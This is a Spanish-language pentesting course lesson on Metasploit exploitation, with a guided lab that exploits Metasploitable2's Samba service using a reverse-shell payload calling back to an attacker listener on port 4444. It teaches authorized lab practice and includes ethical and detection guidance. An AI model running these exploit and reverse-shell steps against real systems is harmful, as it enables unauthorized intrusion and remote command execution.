

# Clase 073 — Metasploit: explotación y payloads

> Parte: **3 — Hacking ético y pentesting: metodología** · Fuente: *Kennedy et al. - "Metasploit: The Penetration Tester's Guide"; Peter Kim - "The Hacker Playbook 3"*
> ⏱️ Duración estimada: **120 min** · Nivel: **Avanzado**

---

## 🎯 Objetivo

El alumno ejecutará el ciclo completo de explotación con Metasploit sobre un laboratorio propio: seleccionar un exploit acorde a una vulnerabilidad enumerada, elegir y configurar el payload adecuado (bind vs. reverse, staged vs. stageless), lanzar el ataque y gestionar la sesión resultante. Esta es la clase donde el reconocimiento se convierte en acceso real a un sistema, y por eso exige el máximo rigor ético y técnico.

## 📚 Resultados de aprendizaje

Al finalizar, el alumno podrá:

1. Emparejar una vulnerabilidad enumerada previamente con un exploit compatible de Metasploit.
2. Distinguir payloads bind y reverse, y staged y stageless, explicando cuándo conviene cada combinación.
3. Configurar correctamente LHOST, LPORT, RHOSTS y el target de un módulo antes de lanzarlo.
4. Ejecutar un exploit contra Metasploitable2/3 y gestionar la sesión resultante con `sessions`.
5. Diagnosticar por qué un exploit falla (target incorrecto, firewall, payload incompatible) y corregirlo.
6. Justificar por escrito, para cada acción de explotación, que se realiza dentro de un alcance autorizado.

## 🗺️ Temas

| # | Tema | Por qué importa |
|---|------|------------------|
| 1 | Emparejar exploit y vulnerabilidad | Un exploit mal elegido no funciona o puede romper el servicio objetivo |
| 2 | Reverse shell vs. bind shell | El reverse atraviesa NAT y firewalls con salida permitida; el bind no |
| 3 | Payload staged vs. stageless | Afecta tamaño del payload, fiabilidad y detección |
| 4 | `check` antes de `exploit` | Verifica la condición vulnerable sin ejecutar el ataque completo |
| 5 | Selección de target (`set target`) | La arquitectura/versión exacta determina offsets y compatibilidad |
| 6 | Handlers y `exploit -j` | Permite escuchar conexiones entrantes en segundo plano |
| 7 | Gestión de sesiones múltiples | Un pentest real rara vez involucra un solo objetivo a la vez |
| 8 | Troubleshooting de exploits fallidos | La mayoría de fallos son de configuración, no del exploit en sí |

## 🧠 Explicación en profundidad

### Emparejar el exploit con la vulnerabilidad, y confirmar antes de disparar

La explotación empieza por una decisión que parece obvia y que se falla constantemente:
**el exploit tiene que coincidir con la vulnerabilidad exacta del objetivo**, no solo con el
servicio. La versión, la arquitectura (x86/x64), el idioma del sistema y hasta el nivel de
parche cambian los *offsets* de memoria de los que depende un exploit; lanzar uno que no
corresponde no solo falla, sino que **puede tumbar el servicio** —un intento de
desbordamiento mal ajustado cierra el proceso—, lo que en un pentest es un incidente que se
factura en confianza.

Por eso existe `check`: muchos módulos permiten **verificar la condición vulnerable sin
ejecutar el ataque completo**, y usarlo antes de `exploit` es la diferencia entre un
profesional cauto y un aficionado que dispara a ciegas. Y cuando un exploit falla, la
disciplina es asumir que **la mayoría de los fallos son de configuración, no del exploit**:
`LHOST` incorrecto (el error número uno: apunta a la interfaz equivocada), `RHOSTS` mal
puesto, target no seleccionado, un firewall que bloquea la conexión de vuelta. Se depura de
forma metódica antes de descartar el módulo.

### Reverse frente a bind: quién llama a quién

La distinción de payloads más importante para que algo funcione es la dirección de la
conexión, y se entiende mejor pensando en firewalls y NAT.

Una **reverse shell** hace que sea el objetivo quien inicie la conexión **hacia** el
atacante. Es la opción por defecto porque **atraviesa NAT y firewalls**: casi ninguna red
bloquea las conexiones *salientes* hacia un puerto común como el 443, así que el objetivo
puede "llamar a casa" aunque no acepte conexiones entrantes. Una **bind shell** abre un
puerto en el objetivo y espera a que el atacante se conecte; solo funciona si ese puerto es
alcanzable, lo que un firewall perimetral casi siempre impide. En la práctica, reverse es la
norma y bind la excepción para escenarios internos concretos.

### Staged frente a stageless: tamaño, fiabilidad y detección

La otra distinción, visible en el **nombre** del payload, es sutil pero tiene consecuencias.
Un payload **staged** —notación con `/`, como `windows/meterpreter/reverse_tcp`— se envía en
dos partes: un pequeño *stager* que cabe donde hay poco espacio, que luego descarga el resto
(el *stage*) a través del handler. Un payload **stageless** —notación con `_`, como
`windows/meterpreter_reverse_tcp`— lo lleva todo de una vez: es más grande pero más fiable en
redes inestables y no depende de una segunda descarga. La regla operativa es que el nombre
**determina qué handler configurar**: hay que emparejarlos exactamente, y un desajuste
staged/stageless es otra causa clásica de "no me conecta".

### Handlers, sesiones y trabajar en paralelo

El **handler** (`exploit/multi/handler`) es el listener que recibe la conexión del payload.
Lanzar el exploit con `exploit -j` lo pone como *job* en segundo plano, de modo que el
handler sigue a la escucha mientras se trabaja en otros objetivos —esencial cuando un mismo
payload puede ejecutarse en varias máquinas—. Cada conexión entrante crea una **sesión**, y
`sessions -l` las lista mientras `sessions -i N` retoma una concreta. Manejar varias sesiones
a la vez no es un lujo: un pentest real involucra varios objetivos simultáneos, y la sesión
que se obtiene aquí es la puerta a la post-explotación de la [Clase 074](../074-meterpreter-y-post-explotacion/README.md), donde empieza el trabajo que de verdad demuestra impacto.

## 📖 Definiciones y características

- **Reverse shell**: conexión donde la máquina víctima se conecta hacia el atacante. Característica clave: atraviesa firewalls que permiten tráfico saliente pero bloquean el entrante, el escenario más común en redes reales.
- **Bind shell**: conexión donde el atacante se conecta a un puerto abierto por la víctima. Característica clave: falla si existe un firewall de entrada entre atacante y víctima.
- **Payload staged**: payload identificado con `/` en su nombre (ej. `windows/meterpreter/reverse_tcp`) que envía primero un stager pequeño y luego descarga el resto. Característica clave: menor tamaño inicial, pero depende de más pasos de red.
- **Payload stageless**: payload identificado con `_` (ej. `windows/meterpreter_reverse_tcp`) que se envía completo en un solo bloque. Característica clave: más fiable en redes inestables o con filtrado agresivo, a costa de mayor tamaño.
- **Handler (`exploit/multi/handler`)**: módulo genérico que escucha la conexión que hará el payload una vez ejecutado en la víctima. Característica clave: debe configurarse con el mismo tipo de payload exacto que se generó o se usó en el exploit.
- **`check`**: comando de Metasploit que verifica si el objetivo es vulnerable sin lanzar la explotación completa. Característica clave: no todos los módulos lo implementan, pero cuando existe reduce el riesgo de afectar el servicio.

## 📔 Glosario

| Término | Definición concisa |
|---------|--------------------|
| Emparejamiento exploit-vulnerabilidad | El exploit debe coincidir con la versión y arquitectura exactas |
| `check` | Verifica la condición vulnerable sin ejecutar el ataque |
| Target | Variante del exploit según sistema, versión y arquitectura |
| Reverse shell | El objetivo conecta hacia el atacante; atraviesa NAT/firewall |
| Bind shell | El objetivo abre un puerto; el atacante se conecta |
| LHOST / LPORT | Dirección y puerto de escucha del atacante |
| RHOSTS | Objetivo del exploit |
| Payload staged | Se envía en dos partes (stager + stage); notación con `/` |
| Payload stageless | Se envía completo; más grande y fiable; notación con `_` |
| Stager | Primera parte pequeña que descarga el resto |
| Handler | Listener que recibe la conexión del payload |
| `exploit -j` | Lanza el handler como job en segundo plano |
| Sesión | Acceso obtenido tras un exploit exitoso |
| Troubleshooting | Depurar fallos, casi siempre de configuración |

## 🧰 Herramientas y preparación

- Metasploit Framework y Metasploitable2/3 desplegadas en la misma red interna aislada (host-only) que en la clase anterior.
- Confirmar la IP de la máquina atacante (`ip a` en Kali) antes de configurar LHOST — un error aquí es la causa número uno de exploits fallidos.
- Workspace de Metasploit ya poblado con hosts y servicios desde la clase 072 (`db_nmap`, `hosts`, `services`).

> ⚠️ **Nota ética — lectura obligatoria:** esta clase provoca ejecución de código arbitrario en el objetivo y puede degradar o interrumpir el servicio explotado. Se practica **exclusivamente** en máquinas de laboratorio propias (VMs propias, Metasploitable2/3, rangos controlados tipo HackTheBox/TryHackMe) o dentro de un alcance definido en un contrato de pentesting con reglas de engagement (RoE) firmadas por el cliente. Lanzar un exploit contra un sistema sin autorización explícita constituye un delito informático en la mayoría de jurisdicciones, sin importar si la intención era "solo probar" o si no se causó daño aparente. Nunca ejecutes los comandos de esta clase contra una IP que no controles o para la que no tengas autorización por escrito.

## 🧪 Laboratorio guiado

Objetivo `192.168.56.101` (Metasploitable2), atacante Kali `192.168.56.10` (ajustar según tu red de laboratorio).

1. Selecciona un exploit conocido y documentado de Metasploitable2, por ejemplo el de Samba: `use exploit/multi/samba/usermap_script`.
2. Fija el objetivo: `set RHOSTS 192.168.56.101`.
3. Lista los payloads compatibles con el exploit seleccionado: `show payloads`.
4. Elige un payload reverse y configúralo: `set PAYLOAD cmd/unix/reverse`, `set LHOST 192.168.56.10`, `set LPORT 4444`.
5. Revisa todas las opciones antes de disparar: `options`.
6. Si el módulo lo soporta, verifica sin explotar: `check`.
7. Lanza el exploit: `exploit`.
8. Confirma la sesión obtenida y ejecuta comandos básicos: `sessions -l`, `sessions -i 1`, luego `id; uname -a`.
9. Repite el proceso con un exploit que entregue Meterpreter (por ejemplo vsftpd o distcc en Metasploitable2) y compara el tipo de sesión obtenida frente al shell simple.
10. Ejecuta el mismo exploit en segundo plano con `exploit -j` y observa cómo queda registrado en `jobs`.
11. Provoca deliberadamente un fallo configurando un LHOST incorrecto (ej. `127.0.0.1` en vez de la IP real de la red host-only) y documenta el mensaje de error obtenido.
12. Prueba un módulo con múltiples targets (`show targets`) y observa cómo cambia el comportamiento del exploit al fijar `set target <n>` con un valor incorrecto frente al correcto.

## ✍️ Ejercicios

1. Explica con un ejemplo concreto en qué escenario un reverse shell es imprescindible frente a un bind shell.
2. Cambia un payload staged por su equivalente stageless en `show payloads` y describe la diferencia visible en el nombre y el tamaño.
3. Provoca un fallo de explotación poniendo un LHOST incorrecto y documenta el síntoma exacto observado en consola.
4. Usa `check` en un módulo que lo soporte y en uno que no lo soporte; documenta la diferencia de comportamiento.
5. Obtén dos sesiones simultáneas contra el mismo objetivo (usando dos exploits distintos) y practica moverte entre ellas con `sessions -i`.
6. Explica por qué el handler debe coincidir exactamente con el payload usado en el exploit, incluyendo arquitectura y formato.
7. Investiga y documenta, desde la perspectiva defensiva, qué patrón de tráfico de red generaría un IDS/IPS al detectar una conexión reverse shell hacia un puerto no estándar como el 4444.

## 📝 Reto verificable

**Reto:** Obtener una sesión interactiva en la VM de laboratorio mediante un exploit real de Metasploit y demostrar ejecución de comandos en el sistema comprometido.

**Criterio de aceptación:** `sessions -l` muestra al menos una sesión activa contra el objetivo de laboratorio; se ejecuta `id` (o equivalente) mostrando el usuario obtenido en la víctima; y se documenta por escrito el exploit usado, el payload configurado y las opciones exactas (RHOSTS, LHOST, LPORT). Todo el ejercicio se realiza contra una IP de laboratorio propio.

## ⚠️ Errores comunes

| Síntoma / mensaje | Causa y cómo arreglar |
|---|---|
| "Exploit completed, but no session was created" | Payload o target incorrecto, o firewall bloqueando la conexión de vuelta; probar otro payload o ajustar `set target` |
| El handler no recibe nunca la conexión | LHOST apunta a `127.0.0.1` en vez de la IP real de la interfaz de laboratorio; corregir con `ip a` |
| "The target is not exploitable" tras `check` | La versión del servicio no es vulnerable; verificar con `services` y elegir otro módulo |
| La sesión se cae inmediatamente tras conectar | Payload staged inestable en la red de laboratorio; probar la variante stageless |
| Puerto LPORT ya en uso | Otro handler o proceso ocupa el puerto; cambiar LPORT o finalizar el job anterior con `jobs -K` |
| El exploit tarda mucho o se queda colgado | Timeout de red o objetivo caído; verificar conectividad con `ping`/`nmap` antes de reintentar |
| `set target` con índice fuera de rango | El módulo tiene menos targets de los esperados; revisar `show targets` antes de fijar el índice |

## ❓ Preguntas frecuentes

**❓ ¿Por qué aparece "Exploit completed, but no session was created" tan seguido?**
Suele deberse a incompatibilidad de payload/target, un firewall bloqueando la conexión de vuelta, o un LHOST mal configurado. Revisar `options`, probar un payload distinto y confirmar la IP de escucha resuelve la mayoría de los casos.

**❓ ¿Debo elegir staged o stageless por defecto?**
Depende de la calidad de la red. En redes de laboratorio estables, staged reduce el tamaño inicial transmitido. En redes con pérdida de paquetes o proxies intermedios, stageless suele ser más fiable porque no depende de descargar etapas adicionales.

**❓ ¿Debo usar siempre reverse shells en vez de bind shells?**
En la mayoría de escenarios reales sí, porque los firewalls corporativos permiten tráfico saliente pero bloquean el entrante no solicitado. Los bind shells solo son viables cuando puedes alcanzar directamente el puerto que abre la víctima, algo cada vez menos común.

**❓ ¿El comando `check` es siempre seguro de ejecutar?**
Generalmente sí, porque verifica la condición vulnerable sin llegar a explotar el sistema. Pero no todos los módulos lo implementan; cuando existe, es buena práctica ejecutarlo antes de lanzar el exploit completo para reducir el riesgo de afectar el servicio.

**❓ ¿Qué diferencia hay entre lanzar `exploit` y `exploit -j`?**
`exploit` bloquea la consola hasta obtener la sesión o fallar; `exploit -j` lo ejecuta como job en segundo plano, permitiendo seguir trabajando en la consola mientras se espera la conexión, algo útil cuando se atacan varios objetivos en paralelo.

**❓ ¿Cómo detectaría un equipo defensivo esta explotación en un entorno real?**
Un IDS/IPS de red (Snort, Suricata) o un EDR en el host puede detectar el patrón de conexión saliente inusual hacia un puerto no estándar, la ejecución de un proceso hijo inesperado desde el servicio explotado (ej. `smbd` lanzando `/bin/sh`), o firmas específicas del stager en el tráfico de red. Documentar el IOC exacto generado por cada exploit es tan valioso como saber ejecutarlo.

**❓ ¿Qué hago si un exploit compatible con la versión detectada igual no funciona?**
Es normal: la explotación puede fallar por variaciones de compilación, mitigaciones del sistema operativo (ASLR, DEP/NX) o parches parciales no reflejados en el banner de versión. Documenta el intento fallido igualmente; en un informe real, un "no explotado pero vulnerable en teoría" también aporta valor.

## 🔗 Referencias

- Kennedy, D. et al. "Metasploit: The Penetration Tester's Guide" (No Starch Press) — capítulos sobre explotación y payloads.
- Kim, P. "The Hacker Playbook 3" (2018) — metodología práctica de explotación en engagements reales.
- Offensive Security, Metasploit Unleashed: <https://www.offsec.com/metasploit-unleashed/>
- Rapid7, documentación oficial de Metasploit sobre payloads: <https://docs.metasploit.com/docs/using-metasploit/basics/payload-types-in-metasploit.html>
- MITRE ATT&CK, técnica T1210 (Exploitation of Remote Services): <https://attack.mitre.org/techniques/T1210/>
- PTES (Penetration Testing Execution Standard), fase de Exploitation: <http://www.pentest-standard.org>

## 📥 Material descargable

- 📄 [Guía en PDF](./clase-073-guia.pdf) — versión imprimible de esta clase.
- 🎞️ [Presentación (PPTX)](./clase-073-presentacion.pptx) — deck para proyectar en clase.

## ⬅️ Clase anterior

[Clase 072 — Metasploit Framework: arquitectura y uso](../072-metasploit-framework-arquitectura-y-uso/README.md)

## ➡️ Siguiente clase

[Clase 074 — Meterpreter y post-explotación](../074-meterpreter-y-post-explotacion/README.md)
